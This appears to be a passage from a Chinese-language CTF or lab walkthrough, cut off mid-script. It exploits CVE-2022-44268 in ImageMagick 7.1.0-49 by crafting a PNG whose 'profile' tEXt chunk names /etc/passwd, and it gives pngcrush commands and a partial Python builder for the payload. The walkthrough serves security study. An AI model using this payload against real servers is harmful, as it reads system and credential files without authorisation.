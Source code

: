 成功獲取完整源代碼！

### 源碼分析

檢查 `index.php`：

```php
$image = new Imagick($upload_path);
$image->setImageFormat('png');
$image->writeImage($output_path);
```

使用 ImageMagick 處理圖片。

檢查 ImageMagick 版本：

```bash
strings magick | grep -i "version"
# ImageMagick 7.1.0-49
```

這個版本存在已知漏洞！

## Initial Access

### CVE-2022-44268 - ImageMagick Arbitrary File Read

ImageMagick 7.1.0-49 存在任意文件讀取漏洞：

**漏洞原理：**
- PNG 圖片可以包含 tEXt chunk 與 `profile` 屬性
- 可以指定讀取伺服器上的任意檔案
- 檔案內容會被編碼到輸出圖片的 metadata 中

### 生成惡意 PNG

```bash
# 創建基本圖片
convert -size 100x100 xc:white test.png

# 注入 payload 讀取 /etc/passwd
pngcrush -text a "profile" "/etc/passwd" test.png exploit.png
```

或使用 Python 腳本：

```python
from PIL import Image
import struct

def create_exploit_png(file_to_read):
    img = Image.new('RGB', (100, 100), color='white')
    img.save('base.png')

    # Add tEXt chunk with file path
    with open('base.png', 'rb') as f:
        data = bytearray(f.read())

    # Insert profile chunk
    chunk_type = b'tEXt'
    chunk_data = b'profile\x00' + file_to_read.encode()
    chunk_len = struct.pack('>I', len(chunk_data))
    chunk = chunk_len + chunk_type + chunk_data

    # Insert before IEND
    iend_pos = data.rfind(b'IEND')
    data[iend_pos:iend_pos] = chunk

```